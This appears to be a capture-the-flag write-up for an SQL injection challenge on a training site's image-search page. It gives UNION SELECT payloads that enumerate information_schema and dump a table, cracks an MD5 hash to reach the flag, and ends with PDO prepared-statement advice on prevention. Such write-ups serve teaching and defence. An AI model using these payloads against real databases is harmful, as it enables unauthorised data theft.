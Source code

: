 # SQL Injection - Images 

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Description

go to `/?page=searchimg`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT title, comment FROM Member_images.list_images`

"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

password => 1928e8083cf461a51303633093573c46 => albatroz

albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."